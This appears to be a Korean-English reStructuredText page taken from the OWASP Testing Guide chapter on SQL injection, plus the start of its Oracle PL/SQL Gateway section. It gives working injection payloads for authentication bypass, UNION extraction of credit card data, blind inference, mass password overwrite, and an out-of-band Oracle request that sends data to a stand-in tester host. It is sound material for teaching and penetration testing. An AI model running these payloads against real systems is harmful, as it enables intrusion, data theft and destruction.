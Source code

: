 ============================================================================================
OTG-INPVAL-005 (SQL 인젝션 침투 테스트)
============================================================================================

|

개요
============================================================================================

SQL 인젝션 공격은 클라이언트 브라우저로 부터 웹 어플리케이션으로 데이터 입력 또는 전송 폼을 통해 부분 또는 전체 SQL 쿼리를 삽입하는 것입니다.
성공적인 SQL 인젝션 공격은 데이터베이스로 부터 민감한 데이터를 읽거나, 수정, 실행, 복구 등을 할 수 있습니다.

일반적으로 웹 어플리케이션은 사용자가 입력한 데이터와 프로그래머에 의해 작성된 SQL 구문을 포함하여 구성되어 있습니다.

.. code-block:: html

    select title, text from news where id=$id 

위의 예제를 보면 $id는 사용자 입력 데이터이고, 나머지 SQL 구문은 프로그래머에 의해 작성된 것입니다.

이러한 구성 때문에, 사용자는 보통 SQL 구문에 사용자가 입력한 부분을 실행하도록 시도할 수 있습니다.


The example below illustrates the user-supplied data "10 or 1=1", changing the logic of the SQL statement, modifying the WHERE clause adding a condition "or 1=1". SQL Injection attacks can be divided into the following three classes: 

- Inband: data is extracted using the same channel that is used to inject the SQL code. 
검색 데이터가 어플리케이션 웹 페이지에 직접 표시되는 가장 간단한 공격 유형입니다.
- Out-of-band: data is retrieved using a different channel.
- Inferential 또는 Blind: there is no actual transfer of data, but the tester is able to reconstruct the information by sending particular requests and observing the resulting behavior of the DB Server. 

성공적인 SQL 인젝션 공격은 문법적으로 정확한 SQL 쿼리를 만들어야 합니다. 

If the application returns an error message generated by an incorrect query, then it may be easier for an attacker to reconstruct the logic of the original query and, therefore, understand how to perform the injection correctly. However, if the application hides the error details, then the tester must be able to reverse engineer the logic of the original query. 

About the techniques to exploit SQL injection flaws there are five commons techniques. Also those techniques sometimes can be used in a combined way (e.g. union operator and out-of-band): 
 
- Union 조작: can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set. 
- Boolean: use Boolean condition(s) to verify whether certain conditions are true or false. 
- Error 기반: this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection. 
- Out-of-band: technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server). 
- Time delay: use database commands (e.g. sleep) to delay answers in conditional queries. It useful when attacker doesn't have some kind of answer (result, output, or error) from the application. 

|

테스트 방법
============================================================================================

탐지 기술
-----------------------------------------------------------------------------------------

이 테스트에 첫번째 단계는 어플리케이션이 어떤 데이터를 액세스하기 위해 DB 서버와 연계할 때를 
이해하는 것입니다.
어플리케이션이 DB에 요청할 경우의 일반적인 예제:
 
- 인증 폼: 인증이 웹 폼을 사용하여 수행될 때, 사용자가 모든 사용자명과 패스워드를 포함하는
데이터베이스에 대해 사용자 신용 증명을 확인합니다.
- 검색 엔진: 사용자가 제출한 문자열은 데이터베이스에서 모든 관련 기록을 출력하는 SQL 쿼리에서 사용할 수 있습니다.
- 전자상거래 사이트: 물건과 물건 특징이 데이터베이스에 저장되어 있을 가능성이 높습니다.

테스터는 POST 요청의 숨겨진 필드를 포함한 SQL 쿼리를 만드는데 사용할 수 있는 모든 입력 필드 리스트를 만들어야 하고, 개별적으로 테스트를 해서 쿼리를 방해하고 오류를 생성하기 위해 노력합니다.
또한 HTTP 헤더와 쿠키를 고려합니다.

첫번째 테스트는 일반적으로 필드 또는 파라미터에 싱글 쿼터 또는 세미콜론을 추가하여 
확인하는 것입니다.

만약 싱글 쿼터가 어플리케이션에서 필터링되지 않았다면, 문자열 종료로 SQL에 사용되었을 것이고,
잘못된 쿼리로 이어질 것입니다.

만약 세미콜론이 어플리케이션에서 필터링되지 않았다면, SQL 구문이 끝나는데 사용되었을 것이고,
이 또한 오류가 발생될 것입니다.

취약한 필드의 출력은 다음과 유사할 것입니다. (Microsoft SQL Server)

.. code-block:: html

    Microsoft OLE DB Provider for ODBC Drivers error '80040e14' 
    [Microsoft][ODBC SQL Server Driver][SQL Server]Unclosed 
    quotation mark before the 
    character string ''. 
    /target/target.asp, line 113

또한, 주석 구분자(-- 또는 /* */, 등)와 'AND', 'OR'과 같은 다른 키워드는 
쿼리 수정을 위해 사용될 수 있습니다.

매우 간단하지만 때로는 여전히 효과적인 기술은 다수의 예상되는 문자열을 삽입하는 것인데,
다음과 같은 오류가 생성될 수 있습니다.

.. code-block:: html

    Microsoft OLE DB Provider for ODBC Drivers error '80040e07' 
    [Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error 
    converting the 
    varchar value 'test' to a column of data type int. 
    /target/target.asp, line 113 

웹 서버로 부터 모든 응답을 모니터하고 HTML/javascript 소스 코드를 확인해야 합니다.

때로는 에러가 존재하지만 어떠한 이유로 사용자에게 제공되지 않을 수 있습니다.

위 예제에서와 같은 전체 에러 메시지는 테스터에게 성공적인 인젝션 공격을 위해 풍부한 정보를
제공합니다.
그러나, 어플리케이션은 종종 간단하게 '500 Server Error' 또는 자체 에러 페이지를 출력하고
자세한 내용을 제공하지 않는데, 이럴 경우 블라인드 인젝션 기술을 사용해야 합니다.

어쨋든, 파라미터의 취약여부를 정밀하게 판단하기 위해서, 각각의 필드를 분리하여 테스트하는 것은 매우 중요합니다.

|

기본 SQL 인젝션 테스트
-----------------------------------------------------------------------------------------

예제 1 (기본 SQL 인젝션)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^


.. code-block:: html

    SELECT * FROM Users WHERE Username='$username' AND 
    Password='$password' 

일반적으로 웹 어플리케이션에서 사용자 인증을 위해 사용되는 쿼리입니다.
만약 쿼리가 데이터베이스 내부 자격 증명에 사용자가 존재함을 의미하는 값을 리턴하면,
사용자는 시스템에 로그인할 수 있고, 그렇지 않으면 액세스가 거부됩니다.

입력 필드 값은 일반적으로 웹 form을 통해 사용자로 부터 획득됩니다.

다음 사용자명과 패스워드 값을 입력했다고 가정합니다.

.. code-block:: html

    $username = 1' or '1' = '1
    $password = 1' or '1' = '1 

위 입력은 다음과 같이 입력될 것입니다.

.. code-block:: html

    SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND 
    Password='1' OR '1' = '1' 

만약 파라미터 값이 GET 메소드를 통해 서버에 보내졌고, 취약한 웹 사이트의 도메인이 
www.example.com이라고 가정한다면, 요청을 아래와 같이 수행할 것입니다.

조건이 항상 true이기 때문에 쿼리 값을 반환하는 것을 알 수 있습니다.

[Request URL]

.. code-block:: html

    http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'
    1&password=1'%20or%20'1'%20=%20'1 

이번 방법에서는 사용자명과 패스워드를 알지 못하는 상태에서 시스템에 인증되었습니다.
대부분 시스템에서는 사용자 테이블의 첫번째 줄이 관리자 사용자일 것입니다.

이것은 그런 일부 경우에 리턴되는 프로파일 일 수 있습니다.

|

또 다른 예제 하나를 더 보겠습니다. 

.. code-block:: html

    SELECT * FROM Users WHERE ((Username='$username') AND 
    (Password=MD5('$password'))) 

이 경우 인젝션을 하기 위해 두 가지 문제를 해결해야 하는데, 하나는 괄호 사용이고 다른 하는 MD5 함수 사용입니다.
우선적으로, 괄호 사용 문제의 경우 괄호 개수에 맞게 닫힘 괄호를 입력해주어야 합니다.
두번째 문제인, MD5의 경우 주석 처리를 통해 함수가 처리되지 않도록 합니다.
모든 DBMS는 주속 구문을 가지고 있는데, 대다수 공통적으로 '/*'을 사용합니다.

.. code-block:: html

    $username = 1' or '1' = '1'))/* 

    $password = foo 

이 방법에서, 다음 쿼리를 얻을 수 있습니다.

.. code-block:: html

    SELECT * FROM Users WHERE ((Username='1' or '1' = '1'))/*') AND 
    (Password=MD5('foo'))) 

$username에 주석 구분자로 인해 $password 부분은 무시될 것입니다.

[Request URL]

.. code-block:: html

    http://www.example.com/index.php?username=1'%20or%20 
    '1'%20=%20'1'))/*&password=foo

이건 다수의 값이 반환될 수 있습니다.
때때로, 인증 코드는 반환된 결과의 수가 1과 정확하게 동일하다고 확인합니다.

In the previous examples, this situation would be difficult (in the database there is only one value per user). 
In order to go around this problem, it is enough to insert a SQL command that imposes a condition that the number of the returned results must be one. 
(One record returned) In order to reach this goal, we use the operator "LIMIT <num>", where <num> is the number of the results/records that we want to be returned. 
With respect to the previous example, the value of the fields Username and Password will be modified as follows: 

.. code-block:: html

    $username = 1' or '1' = '1')) LIMIT 1/* 

    $password = foo 

[Request URL]

.. code-block:: html

    http://www.example.com/index.php?username=1'%20or%20 
    '1'%20=%20'1'))%20LIMIT%201/*&password=foo 

|

예제 2 (simple SELECT statement): Consider the following SQL query: 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

.. code-block:: html

    SELECT * FROM products WHERE id_product=$id_product 

Consider also the request to a script who executes the query above: 

.. code-block:: html

    http://www.example.com/product.php?id=10 

When the tester tries a valid value (e.g. 10 in this case), the application will return the description of a product. A good way to test if the application is vulnerable in this scenario is play with logic, using the operators AND and OR. 

Consider the request: 

.. code-block:: html

    http://www.example.com/product.php?id=10 AND 1=2 
    
    SELECT * FROM products WHERE id_product=10 AND 1=2 

In this case, probably the application would return some message telling us there is no content available or a blank page. Then the tester can send a true statement and check if there is a valid result: 

.. code-block:: html

    http://www.example.com/product.php?id=10 AND 1=1 

|

예제 3 (Stacked queries): 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Depending on the API which the web application is using and the DBMS (e.g. PHP + PostgreSQL, ASP+SQL SERVER) it may be possible to execute multiple queries in one call. 


Consider the following SQL query: 

.. code-block:: html

    SELECT * FROM products WHERE id_product=$id_product 

A way to exploit the above scenario would be: 

.. code-block:: html

    http://www.example.com/product.php?id=10; INSERT INTO 
    users (...) 

This way is possible to execute many queries in a row and independent of the first query. 

|

Fingerprinting the Database 
-----------------------------------------------------------------------------------------

Even the SQL language is a standard, every DBMS has its peculiarity and differs from each other in many aspects like special commands, functions to retrieve data such as users names and databases, features, comments line etc. 

When the testers move to a more advanced SQL injection exploitation they need to know what the back end database is. 

1. The first way to find out what back end database is used is by observing the error returned by the application. Follow are some examples: 


**MySql:**

You have an error in your SQL syntax; check the manual 
that corresponds to your MySQL server version for the 
right syntax to use near '\'' at line 1 

**Oracle:**

ORA-00933: SQL command not properly ended 

**MS SQL Server:**

Microsoft SQL Native Client error '80040e14' 
Unclosed quotation mark after the character string 

**PostgreSQL:**

Query failed: ERROR: syntax error at or near 
"'" at character 56 in /www/site/test.php on line 121. 

2. If there is no error message or a custom error message, the tester can try to inject into string field using concatenation technique: 

|

공격 기술 
-----------------------------------------------------------------------------------------

Union 공격 기술
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ 

SQL 인젝션 시 UNION 연산자는 오리지날 쿼리에 테스터가 의도적으로 위조한 쿼리를 합치기 위해
사용됩니다.

위조한 쿼리 결과는 테스터가 다른 테이블의 컬럼 값을 획득하기 위해 오리지날 쿼리 결과에 합쳐지게 될 것입니다.

다음과 같이 서버로 부터 실행되는 쿼리 예제를 가정해봅니다.

.. code-block:: html

    SELECT Name, Phone, Address FROM Users WHERE Id=$id

다음과 같이 $id 값을 설정할 것입니다. 

.. code-block:: html

    $id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable

다음 쿼리가 실행될 것입니다.

.. code-block:: html

    SELECT Name, Phone, Address FROM Users WHERE Id=1 
    UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable 

CreditCardTable 테이블에 있는 모든 CreditCardNumber가 오리지널 쿼리 결과에 합쳐질 것입니다.
키워드 ALL은 
The keyword ALL is necessary to get around queries that use the keyword DISTINCT. 
Moreover, we notice that beyond the credit card numbers, we have selected other two values. 
These two values are necessary, because the two queries must have an equal number of parameters/columns, in order to avoid a syntax error. 

The first detail a tester needs to exploit the SQL injection vulnerability using such technique is to find the right numbers of columns in the SELECT statement. 
In order to achieve this the tester can use ORDER BY clause followed by a number indicating the numeration of database's column selected: 

.. code-block:: html

    http://www.example.com/product.php?id=10 ORDER BY 10--

If the query executes with success the tester can assume, in this example, there are 10 or more columns in the SELECT statement. 
If the query fails then there must be fewer than 10 columns returned by the query. 

If there is an error message available, it would probably be: 

.. code-block:: html

    Unknown column '10' in 'order clause' 

After the tester finds out the numbers of columns, the next step is to find out the type of columns. 
Assuming there were 3 columns in the example above, the tester could try each column type, using the NULL value to help them: 

.. code-block:: html

    http://www.example.com/product.php?id=10 UNION SELECT
    1,null,null--

If the query fails, the tester will probably see a message like: 

.. code-block:: html

    All cells in a column must have the same datatype 

If the query executes with success, the first column can be an integer. Then the tester can move further and so on: 

.. code-block:: html

    http://www.example.com/product.php?id=10 UNION SELECT 
    1,1,null--

After the successful information gathering, depending on the application, it may only show the tester the first result, because the application treats only the first line of the result set. In this case, it is possible to use a LIMIT clause or the tester can set an invalid value, making only the second query valid (supposing there is no entry in the database which ID is 99999): 

.. code-block:: html

    http://www.example.com/product.php?id=99999 UNION 
    SELECT 1,1,null--


Boolean 공격 기술
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The Boolean exploitation technique is very useful when the tester finds a Blind SQL Injection situation, in which nothing is known on the outcome of an operation. 
For example, this behavior happens in cases where the programmer has created a custom error page that does not reveal anything on the structure of the query or on the database. 
(The page does not return a SQL error, it may just return a HTTP 500, 404, or redirect). 

By using inference methods, it is possible to avoid this obstacle and thus to succeed in recovering the values of some desired fields. 
This method consists of carrying out a series of boolean queries against the server, observing the answers and finally deducing the meaning of such answers. 
We consider, as always, the www.example.com domain and we suppose that it contains a parameter named id vulnerable to SQL injection. 
This means that carrying out the following request:

.. code-block:: html

    http://www.example.com/index.php?id=1' 

We will get one page with a custom message error which is due to a syntactic error in the query. We suppose that the query executed on the server is: 

.. code-block:: html

    SELECT field1, field2, field3 FROM Users WHERE Id='$Id' 

Which is exploitable through the methods seen previously. What we want to obtain is the values of the username field. The tests that we will execute will allow us to obtain the value of the user-name field, extracting such value character by character. This is possible through the use of some standard functions, present in practically every database. For our examples, we will use the following pseudo-functions: 
SUBSTRING (text, start, length): returns a substring starting from the position "start" of text and of length "length". I f "start" is greater than the length of text, the function returns a null value. 
ASCII (char): it gives back ASCII value of the input character. A null value is returned if char is 0. 
LENGTH (text): it gives back the number of characters in the input text. 
Through such functions, we will execute our tests on the first character and, when we have discovered the value, we will pass to the second and so on, until we will have discovered the entire value. The tests will take advantage of the function SUBSTRING, in order to select only one character at a time (selecting a single character means to impose the length parameter to 1), and the function ASCII, in order to obtain the ASCII value, so that we can do numerical comparison. The results of the comparison will be done with all the values of the ASCII table, until the right value is found. As an example, we will use the following value for Id: 

.. code-block:: html

    $Id=1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1 

That creates the following query (from now on, we will call it "inferential query"): 

.. code-block:: html

    SELECT field1, field2, field3 FROM Users WHERE Id='1' AND 
    ASCII(SUBSTRING(username,1,1))=97 AND '1'='1' 

The previous example returns a result if and only if the first character of the field username is equal to the ASCII value 97. If we get a false value, then we increase the index of the ASCII table from 97 to 98 and we repeat the request. If instead we obtain a true value, we set to zero the index of the ASCII table and we analyze the next character, modifying the parameters of the SUBSTRING function. The problem is to understand in which way we can distinguish tests returning a true value from those that return false. To do this, we create a query that always returns false. This is possible by using the following value for Id: 

.. code-block:: html

    $Id=1' AND '1' = '2 

Which will create the following query: 

.. code-block:: html

    SELECT field1, field2, field3 FROM Users WHERE Id='1' AND '1' 
    = '2' 

The obtained response from the server (that is HTML code) will be the false value for our tests. This is enough to verify whether the value obtained from the execution of the inferential query is equal to the value obtained with the test executed before. Sometimes, this method does not work. If the server returns two different pages as a result of two identical consecutive web requests, we will not be able to discriminate the true value from the false value. In these particular cases, it is necessary to use particular filters that allow us to eliminate the code that changes between the two requests and to obtain a template. Later on, for every inferential request executed, we will extract the relative template from the response using the same function, and we will perform a control between the two templates in order to decide the result of the test. 


In the previous discussion, we haven't dealt with the problem of determining the termination condition for out tests, i.e., when we should end the inference procedure. A techniques to do this uses one characteristic of the SUBSTRING function and the LENGTH function. When the test compares the current character with the ASCII code 0 (i.e., the value null) and the test returns the value true, then either we are done with the inference procedure (we have scanned the whole string), or the value we have analyzed contains the null character. We will insert the following value for the field Id: 

.. code-block:: html

    $Id=1' AND LENGTH(username)=N AND '1' = '1 

Where N is the number of characters that we have analyzed up to now (not counting the null value). The query will be: 

.. code-block:: html

    SELECT field1, field2, field3 FROM Users WHERE Id='1' AND 
    LENGTH(username)=N AND '1' = '1' 

The query returns either true or false. If we obtain true, then we have completed the inference and, therefore, we know the value of the parameter. If we obtain false, this means that the null character is present in the value of the parameter, and we must continue to analyze the next parameter until we find another null value. 
The blind SQL injection attack needs a high volume of queries. The tester may need an automatic tool to exploit the vulnerability. 

|

Error based Exploitation technique 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

An Error based exploitation technique is useful when the tester for some reason can't exploit the SQL injection vulnerability using other technique such as UNION. The Error based technique consists in forcing the database to perform some operation in which the result will be an error. The point here is to try to extract some data from the database and show it in the error message. This exploitation technique can be different from DBMS to DBMS (check DBMS specific section). Consider the following SQL query: 

.. code-block:: html

    SELECT * FROM products WHERE id_product=$id_product 

Consider also the request to a script who executes the query above: 

.. code-block:: html

    http://www.example.com/product.php?id=10 

The malicious request would be (e.g. Oracle 10g): 

.. code-block:: html

    http://www.example.com/product.php?id=10||UTL_INADDR. 
    GET_HOST_NAME( (SELECT user FROM DUAL) )-

In this example, the tester is concatenating the value 10 with the result of the function UTL_INADDR.GET_HOST_NAME. This Oracle function will try to return the host name of the parameter passed to it, which is other query, the name of the user. When the database looks for a host name with the user database name, it will fail and return an error message like: 

.. code-block:: html

    ORA-292257: host SCOTT unknown 

Then the tester can manipulate the parameter passed to GET_ HOST_NAME() function and the result will be shown in the error message. 

|

Out of band Exploitation technique 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

This technique is very useful when the tester find a Blind SQL Injection situation, in which nothing is known on the outcome of an operation. 
The technique consists of the use of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester's server.
Like the error based techniques, each DBMS has its own functions. 
Check for specific DBMS section. 
Consider the following SQL query: 

.. code-block:: html

    SELECT * FROM products WHERE id_product=$id_product 

Consider also the request to a script who executes the query above: 

.. code-block:: html

    http://www.example.com/product.php?id=10 

The malicious request would be: 

.. code-block:: html

    http://www.example.com/product.php?id=10||UTL_HTTP. 
    request('testerserver.com:80'||(SELET user FROM DUAL)-

In this example, the tester is concatenating the value 10 with the result of the function UTL_HTTP.request. This Oracle function will try to connect to 'testerserver' and make a HTTP GET request containing the return from the query "SELECT user FROM DUAL". The tester can set up a webserver (e.g. Apache) or use the Netcat tool: 

.. code-block:: html

    /home/tester/nc -nLp 80 
    GET /SCOTT HTTP/1.1 Host: testerserver.com Connection: close 

|

시간 지연 공격 기술
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The Boolean exploitation technique is very useful when the tester find a Blind SQL Injection situation, in which nothing is known on the outcome of an operation. This technique consists in sending an injected query and in case the conditional is true, the tester can monitor the time taken to for the server to respond. If there is a delay, the tester can assume the result of the conditional query is true. This exploitation technique can be different from DBMS to DBMS (check DBMS specific section). 
Consider the following SQL query: 
SELECT * FROM products WHERE id_product=$id_product Consider also the request to a script who executes the query above: 

.. code-block:: html

    http://www.example.com/product.php?id=10 

The malicious request would be (e.g. MySql 5.x): 

.. code-block:: html

    http://www.example.com/product.php?id=10 AND IF(version() 
    like '5%', sleep(10), 'false'))-

In this example the tester if checking whether the MySql version is 
5.x or not, making the server to delay the answer by 10 seconds. The tester can increase the delay time and monitor the responses. The tester also doesn't need to wait for the response. Sometimes he can set a very high value (e.g. 100) and cancel the request after some seconds. 

|

저장 프로시저 인젝션
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

When using dynamic SQL within a stored procedure, the application must properly sanitize the user input to eliminate the risk of code injection. If not sanitized, the user could enter malicious SQL that will be executed within the stored procedure. 
Consider the following SQL Server Stored Procedure: 

.. code-block:: html

    Create procedure user_login @username varchar(20), 
    @passwd varchar(20) As Declare @sqlstring varchar(250) 
    Set @sqlstring = ' Select 1 from users Where username = '
    + @username + ' and passwd = ' + @passwd exec(@sqlstring) Go 
    User input: anyusername or 1=1' anypassword 

This procedure does not sanitize the input, therefore allowing the return value to show an existing record with these parameters. 
NOTE: This example may seem unlikely due to the use of dynamic SQL to log in a user, but consider a dynamic reporting query where the user selects the columns to view. The user could insert malicious code into this scenario and compromise the data. Consider the following SQL Server Stored Procedure: 

.. code-block:: html

    Create procedure get_report @columnamelist varchar(7900) 
    As Declare @sqlstring varchar(8000) Set @sqlstring = 
    ' Select ' + @ columnamelist + ' from ReportTable' 
    exec(@sqlstring) Go 

User input: 

.. code-block:: html

    1 from users; update users set password = 'password'; select * 

This will result in the report running and all users' passwords being updated. 

|

자동화 공격
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Most of the situation and techniques presented here can be performed in a automated way using some tools. 
In this article the tester can find information how to perform an automated auditing using SQLMap: 

https://www.owasp.org/index.php/Automated_Audit_using_SQLMap 

|

Tools 
============================================================================================

- SQL Injection Fuzz Strings (from wfuzz tool): https://wfuzz.googlecode.com/svn/trunk/wordlist/Injections/SQL.txt 
- OWASP SQLiX 
- Francois Larouche: Multiple DBMS SQL Injection tool - SQL Power Injector 
- ilo--, Reversing.org - sqlbftools 
- Bernardo Damele A. G. - sqlmap
- icesurfer: SQL Server Takeover Tool - sqlninja 
- Pangolin: Automated SQL Injection Tool - Pangolin 
- Muhaimin Dzulfakar - MySqloit 
- Antonio Parata: Dump Files by SQL inference on Mysql - SqlDumper 
- bsqlbf, a blind SQL injection tool in Perl 

|

References 
============================================================================================

- Top 10 2013-A1-Injection  

|

Whitepapers 
-------------------------------------------------------------------------------------------

- Victor Chapela: "Advanced SQL Injection": http://www.owasp.org/images/7/74/Advanced_SQL_Injection.ppt 
- Chris Anley: "More Advanced SQL Injection": http://www.encription.co.uk/downloads/more_advanced_sql_injection.pdf 
- Imperva: "Blinded SQL Injection": https://www.imperva.com/lg/lgw.asp?pid=369 
- Ferruh Mavituna: "SQL Injection Cheat Sheet": http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/ 
- Kevin Spett from SPI Dynamics: "SQL Injection": https://docs.google.com/file/d/0B5CQOTY4YRQCSWRHNkNaaFMyQTA/edit 

|

============================================================================================
Oracle 테스트
============================================================================================

개요
============================================================================================

Web based PL/SQL applications are enabled by the PL/SQL Gateway, which is is the component that translates web requests into database queries. Oracle has developed a number of software implementations, ranging from the early web listener product to the Apache mod_plsql module to the XML Database (XDB) web server. All have their own quirks and issues, each of which will be thoroughly investigated in this chapter. Products that use the PL/SQL Gateway include, but are not limited to, the Oracle HTTP Server, eBusiness Suite, Portal, HTMLDB, WebDB and Oracle Application Server. 

|

테스트 방법
============================================================================================

How the PL/SQL Gateway works 
Essentially the PL/SQL Gateway simply acts as a proxy server taking the user's web request and passes it on to the database server where it is executed. 
[1] The web server accepts a request from a web client and determines if it should be processed by the PL/SQL Gateway. 
[2] The PL/SQL Gateway processes the request by extracting the requested package name, procedure, and variables. 
[3] The requested package and procedure are wrapped in a block of anonymous PL/SQL, and sent to the database server. 
[4] The database server executes the procedure and sends the results back to the Gateway as HTML. 
[5] The gateway sends the response, via the web server, back to the client. 
Understanding this point is important - the PL/SQL code does not exist on the web server but, rather, in the database server. This means that any weaknesses in the PL/SQL Gateway or any weaknesses in the PL/SQL application, when exploited, give an attacker direct access to the database server; no amount of firewalls will prevent this. 
URLs for PL/SQL web applications are normally easily recognizable and generally start with the following (xyz can be any string and represents a Database Access Descriptor, which you will learn more about later): 
http://www.example.com/pls/xyz 
http://www.example.com/xyz/owa 
http://www.example.com/xyz/plsql 
While the second and third of these examples represent URLs from older versions of the PL/SQL Gateway, the first is from more recent versions running on Apache. In the plsql.conf Apache configuration file, /pls is the default, specified as a Location with the PLS module as the handler. The location need not be /pls, however. The absence of a file extension in a URL could indicate the presence of the Oracle PL/SQL Gateway. Consider the following URL: 
http://www.server.com/aaa/bbb/xxxxx.yyyyy 
If xxxxx.yyyyy were replaced with something along the lines of "ebank. home," "store.welcome," "auth.login," or "books.search," then there's a fairly strong chance that the PL/SQL Gateway is being used. It is also possible to precede the requested package and procedure with the name of the user that owns it - i.e. the schema - in this case the user is "webuser": 
http://www.server.com/pls/xyz/webuser.pkg.proc 
In this URL, xyz is the Database Access Descriptor, or DAD. A DAD specifies information about the database server so that the PL/SQL Gateway can connect. It contains information such as the TNS connect string, the user ID and password, authentication methods, and so on. These DADs are specified in the dads.conf Apache configuration file in more recent versions or the wdbsvr.app file in older versions. Some default DADs include the following: 
SIMPLEDAD 
HTMLDB 
ORASSO 
SSODAD 
PORTAL 
PORTAL2 
PORTAL30 
PORTAL30_SSO 
TEST 
DAD 
APP 
ONLINE 
DB 
OWA 

Determining if the PL/SQL Gateway is running 
When performing an assessment against a server, it's important first to know what technology you're actually dealing with. If you don't already know, for example, in a black box assessment scenario, then the first thing you need to do is work this out. Recognizing a web based PL/SQL application is pretty easy. First, there is the format of the URL and what it looks like, discussed above. Beyond that there are a set of simple tests that can be performed to test for the existence of the PL/ SQL Gateway. 
Server response headers 
